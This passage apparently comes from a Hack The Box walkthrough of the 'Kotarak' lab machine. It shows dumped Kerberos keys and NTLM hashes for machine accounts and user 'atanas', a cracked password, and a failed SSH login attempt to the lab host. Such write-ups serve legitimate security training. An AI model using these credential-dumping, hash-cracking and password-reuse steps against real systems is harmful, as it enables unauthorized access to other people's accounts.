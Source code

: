 ```bash
WINXP1$:des-cbc-md5:984a40d5f4a815f2
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up... 
```

I extracted several hashes to crack.

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ cat hashes                                             
e64fe0f24ba2489c05e64354d74ebd11
31d6cfe0d16ae931b73c59d7e0c089c0
2b576acbe6bcfda7294d6bd18041b8fe
```

![](attachments/kotarak_11.png)

The last one is along with the user `atanas` the username I found from `/home` directory.
And its password cracked is `Password123!`.
Also, let's keep `f16tomcat!` as a reserved password just in case `Password123!` not working.

Let's use this to escalate shell.

First, I tried SSH login, but it seemed not working with any password.

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ ssh atanas@10.10.10.55
The authenticity of host '10.10.10.55 (10.10.10.55)' can't be established.
ED25519 key fingerprint is SHA256:h5gN7jkh7/u5jin+UCf9ioqIkqpm0NP2NdM/YaiE4FY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.55' (ED25519) to the list of known hosts.
atanas@10.10.10.55's password: 
Permission denied, please try again.
atanas@10.10.10.55's password: 
Permission denied, please try again.
```
